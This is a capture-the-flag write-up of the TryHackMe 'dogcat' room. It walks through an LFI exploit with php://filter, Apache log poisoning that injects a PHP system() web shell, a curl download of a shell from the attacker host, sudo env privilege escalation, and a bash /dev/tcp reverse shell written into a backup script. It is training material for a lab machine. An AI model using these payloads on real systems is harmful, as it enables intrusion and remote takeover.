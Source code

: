 ```yaml
---
layout: post
title:  "TryHackMe dogcat writeup"
date:   2020-10-08 12:59:36 +0200
categories: writeup tryhackme
---
```


> I made this website for viewing cat and dog images with PHP. If you’re feeling down, come look at some dogs/cats!

## Exploiting a PHP Web server

This [TryHackMe room](https://tryhackme.com/room/dogcat) is about exploiting a PHP server. The goal is to find four flags. There are no more instructions provided in the room description. The web application is a simple one pager where you can click to see dog or cat pictures. No JavaScript, just PHP generated HTML and some images.

NOTE: It took me a while to hack this box so that’s why there are several target IP addresses in the commands. A couple times I messed up and had to reset the box to be able to continue. Can’t do that in real life so it’s really valuable to have these training boxes.

![web]({{ site_url}}/assets/dogcat/web.png)

## Reconnaissance

Let’s start with a nmap scan:

```
$ nmap -sC -sV — script=vulners 10.10.116.148 
Starting Nmap 7.80 ( https://nmap.org ) at 2020–10–07 18:20 EEST
Nmap scan report for 10.10.116.148
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| vulners: 
| cpe:/a:openbsd:openssh:7.6p1: 
| CVE-2008–3844 9.3 https://vulners.com/cve/CVE-2008-3844
...
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| vulners: 
| cpe:/a:apache:http_server:2.4.38: 
| CVE-2010–0425 10.0 https://vulners.com/cve/CVE-2010-0425
| CVE-1999–1412 10.0 https://vulners.com/cve/CVE-1999-1412
| CVE-1999–1237 10.0 https://vulners.com/cve/CVE-1999-1237
| CVE-1999–0236 10.0 https://vulners.com/cve/CVE-1999-0236
.....
|_ CVE-2001–0131 1.2 https://vulners.com/cve/CVE-2001-0131
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
any interesting directories?

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.116.148 dir
```
reveals nothing of interest. Let’s try with .php extension:

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .php -u http://10.10.116.148 dir
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.116.148
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Extensions: php
[+] Timeout: 10s
===============================================================
2020/10/07 18:33:18 Starting gobuster
===============================================================
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/dogs (Status: 301)
/dog.php (Status: 200)
===============================================================
2020/10/07 18:48:30 Finished
```
One interesting file `flag.php` found. Let’s get back to that later.

## Enumeration of HTTP parameters
Web application sends picture requests in the following URL format:

```
http://10.10.116.148/?view=cat
```
Let’s try to see if some sort of injection attack is possible:
```
http://10.10.116.148/?view=dog”
```
Bingo! The server is vulnerable to LFI.
![web]({{ site_url}}/assets/dogcat/phperror.png)

The error message points to use of PHP `include()` function, which includes and evaluates a PHP file. Maybe it could be hacked to include something else? Looking for guidance from an excellent resource [Total OCSP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.htm) we learn that we can exploit this unsanitized input to include files from the server. Let’s try to get the index.php:

```
http://10.10.141.46/?view=dog/../index
```
Doesn’t work because of double inclusion of .php extension. So we need to figure out how to bypass .php file extension and dump PHP files on the server. Again the guide helps us:

```
http://10.10.141.46/?view=php://filter/convert.base64-encode/resource=dog/../index
```

This gives us a base64 encoded index.html which contains the following PHP code:

```php
<?php
function containsStr($str, $substr)
{
    return strpos($str, $substr) !== false;
}
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
if (isset($_GET['view']))
{
    if (containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat'))
    {
        echo 'Here you go!';
        include $_GET['view'] . $ext;
    }
    else
    {
        echo 'Sorry, only dogs or cats are allowed.';
    }
}
?>
```
We notice that ext can be set as a URL parameter and if it is present it is used as such so it can be set to empty value. Also dog or cat is checked with containsStr() which can include anything else too. Let’s try to get the flag.php we found earlier with gobuster:

```
http://10.10.141.46/?view=php://filter/convert.base64-encode/resource=dog/../flag
```
It works! Base64 decode gives flag1:
```
<?php
$flag_1 = “THM{__REDACTED__}”
?>
```
## Apache log poisoning

Since we can now view files on the target system one potential exploit is to inject PHP code into some file that we can display on the web app. Total OCSP Guide has guidance on this too. One potential target is Apache web log which logs our requests along with the user agent:

```
http://10.10.141.46/view=dog/../../../../../var/log/apache2/access.log&ext=
```
looking at the log from page source view we can see that user agent strings are not HTTP escaped so we can inject PHP code there. A good payload includes a command to execute on the server based on URL parameters. Using it we can execute commands by simply modifying the URL that we send to the server:

```
<?php system((isset($_GET['c']))?$_GET['c']:'echo'); ?>
```
Let’s make a simple request with it as user-agent:

```
curl -A “<?php system((isset(\$_GET[‘c’]))?\$_GET[‘c’]:’echo’); ?>” http://10.10.141.46/?view=dog
```
testing with

```
http://10.10.141.46/?view=dog/../../../../../var/log/apache2/access.log&ext=&c=uname
```
shows that it works. Let’s use pentestmonkey php shell, modify local host parameters, rename it to something less suspicious, serve it using python -m SimpleHTTPServer` and upload it to /var/www/html:

```
http://10.10.161.6/?view=dog/../../../../../var/log/apache2/access.log&ext=&c=curl%20http://10.8.108.247:8000/status.php%20-o%20status.php
```
start up a listener `nc -nlp 4444` and navigate to the page.

## We have shell

Check privilege escalation with sudo:

```
User www-data may run the following commands on ac997f808290:
 (root) NOPASSWD: /usr/bin/env
```

Our trusty friend GTFOBins tells us what to do:

```
$ sudo /usr/bin/env /bin/sh
whoami
root
```
get the root flag:
```
cd /root
ls
flag3.txt
cat flag3.txt
THM{__REDACTED__}
```
Now need to figure where the other two flags are.

```
find / -iname “*flag*”
...
cd /var/www
ls
flag2_QMW7JvaY2LvK.txt
html
cat flag2_QMW7JvaY2LvK.txt
THM{__REDACTED__}
```

One more to go. Where could it be?Looking around file system: some other application, no. mail, no. databases, no. backups, yes:

```
find / -iname “*backup*”
/opt/backups
/opt/backups/backup.tar
/opt/backups/backup.sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
Ok, this must be a Docker directory that is mounted to Docker machine. If the backup.sh is run in the Docker machine we might be able to run something there. Come to think of it, the flag2 does point to RCE… Lets try with Pentestmonkey reverse bash shell:

```
cat > backup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.108.247/5555 0>&1
```
Boom!
```
root@dogcat:~# cat flag4.txt
cat flag4.txt
THM{__REDACTED__}
root@dogcat:~#
```

